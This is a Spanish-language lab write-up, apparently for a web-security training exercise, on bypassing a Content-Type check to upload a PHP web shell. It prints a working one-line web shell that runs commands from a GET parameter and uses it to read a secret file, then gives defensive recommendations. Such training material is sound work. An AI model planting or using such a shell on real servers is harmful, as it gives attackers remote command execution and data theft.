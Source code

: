 # Lab: Web shell upload via Content-Type restriction bypass

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con una aplicación de blog:
![image](https://github.com/user-attachments/assets/faf57038-5687-40c1-8632-5f9a2d63059e)

Nos autenticamos con nuestras credenciales `wiener:peter` y accedemos al dashboard del usuario:
![image](https://github.com/user-attachments/assets/1aa16cfa-7fea-4cca-b070-ed55b9321cbd)

Vemos que hay una funcionalidad para subir imágenes, en este caso como sabemos que el laboratorio tiene validaciones de tipo `Content-Type`, subimos un archivo malicioso que contiene una webshell:
![image](https://github.com/user-attachments/assets/bf61dad2-78fd-41a7-8b8c-ba4729e529c3)

El servidor nos responde que el archivo cargado tiene un content type ` application/x-php` y que sólo permite `image/jpeg` o `image/png`.

Subimos una imágen válida de prueba llamada `test.png`para analizar el proceso y vemos que se carga satisfactoriamente:
![image](https://github.com/user-attachments/assets/93fa2fe4-8349-4e42-a776-6aa1451d45e3)

Inspeccionamos el directorio de carga:
![image](https://github.com/user-attachments/assets/d2b14c2b-2f31-40f5-a463-e98929be873c)


Sabemos que la petición `POST /my-account/avatar` es la siguiente:
![image](https://github.com/user-attachments/assets/b0a121f1-2a4e-4f16-b7eb-8bd6fb0b512e)

Cargamos la web shell en php siguiente:
```php
<?php echo shell_exec($_GET['cmd']); ?>
```
Procuramos dejar el encabezado `Content-Type: image/png` tal como está, ya que este es un encabezado permitido:
![image](https://github.com/user-attachments/assets/6cf374e1-8761-4ca1-8394-551afe7d59f8)

El servidor realiza la validación únicamente sobre el encabezado Content-Type, el cual es fácilmente manipulable por el cliente. No verifica la extensión ni inspecciona el contenido real del archivo.

Accedemos al archivo `oneliner.php`:
![image](https://github.com/user-attachments/assets/67b703ba-bc22-487e-b162-d056a7cb1f2f)


Cargamos el secreto `ofXSPhdX9rYIoQoxKqO8WkMhBtKzQ9lh` y resolvemos el laboratorio:
![image](https://github.com/user-attachments/assets/39e8d0b2-533b-42dd-a3d4-6995654dce7c)

---


## ✅ Conclusión

Este laboratorio demuestra cómo una validación defectuosa basada únicamente en el encabezado `Content-Type` puede ser fácilmente eludida para cargar archivos maliciosos. Aunque el servidor intenta prevenir la ejecución de archivos peligrosos (como `.php`), confía ciegamente en los encabezados enviados por el cliente, lo cual permite al atacante disfrazar una shell web como si fuera una imagen.

A través de este bypass, pudimos subir un archivo `.php` con una webshell, accediendo a `/files/avatars/oneliner.php` y utilizando un parámetro GET para ejecutar comandos arbitrarios. En este caso, logramos leer el contenido del archivo `/home/carlos/secret` y resolver el laboratorio.

---

## 🛡️ Recomendaciones

- **No confiar en el encabezado `Content-Type` enviado por el cliente.** Este puede ser fácilmente manipulado usando herramientas como Burp Suite.
- **Validar el tipo MIME real del archivo** inspeccionando su contenido (por ejemplo, usando `file` o `finfo` en el backend).
- **Restringir extensiones a una lista blanca controlada desde el servidor.**
- **Evitar alojar archivos cargados en directorios ejecutables**, especialmente si se permiten extensiones peligrosas.
- **Aplicar permisos mínimos** en el sistema de archivos para evitar ejecución o lectura innecesaria.
- **Registrar y alertar** ante cargas sospechosas o múltiples intentos fallidos.

---

## 📚 Lecciones aprendidas

- Las validaciones superficiales pueden dar una falsa sensación de seguridad.
- Los encabezados HTTP como `Content-Type` no son confiables si provienen del lado cliente.
- Las webshells simples pueden tener un impacto crítico si se ejecutan en el servidor.
- Incluso aplicaciones que parecen tener controles pueden ser vulnerables si no se implementan de forma robusta.
- Es fundamental inspeccionar el flujo completo de carga de archivos y no asumir seguridad por “restricción visible” en el frontend.





